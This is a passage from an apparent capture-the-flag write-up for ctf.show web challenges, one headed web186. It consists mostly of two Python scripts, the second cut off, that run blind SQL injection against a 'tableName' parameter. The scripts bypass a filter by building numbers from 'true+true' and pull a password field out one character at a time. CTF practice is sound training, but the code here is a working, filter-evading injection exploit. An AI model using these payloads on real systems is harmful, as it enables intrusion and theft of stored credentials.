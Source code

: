 ```python
# @Author:Y4tacker
import requests

url = "http://341e93e1-a1e7-446a-b7fc-75beb0e88086.chall.ctf.show/select-waf.php"
flag = 'ctfshow{'
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num

for i in range(45):
    if i <= 7:
        continue
    for j in range(127):
        data = {
            "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{createNum(i)},{createNum(1)})regexp(char({createNum(j)})))"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 43;") > 0:
            if chr(j) != ".":
                flag += chr(j)

                print(flag.lower())
                if chr(j) == "}":
                    exit(0)
                break
```

## web186*

与上题类似

```python
# @Author:Y4tacker
import requests

url = "http://ed2c10ec-c4af-4131-aa74-8437c380e547.challenge.ctf.show/select-waf.php"
flag = 'ctfshow'
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
    return num

for i in range(45):
    if i <= 7:
        continue
    for j in range(127):
        data = {
            "tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{createNum(i)},{createNum(1)})regexp(char({createNum(j)})))"
        }
        r = requests.post(url, data=data)
        if r.text.find("$user_count = 43;") > 0:
            if chr(j) != ".":
```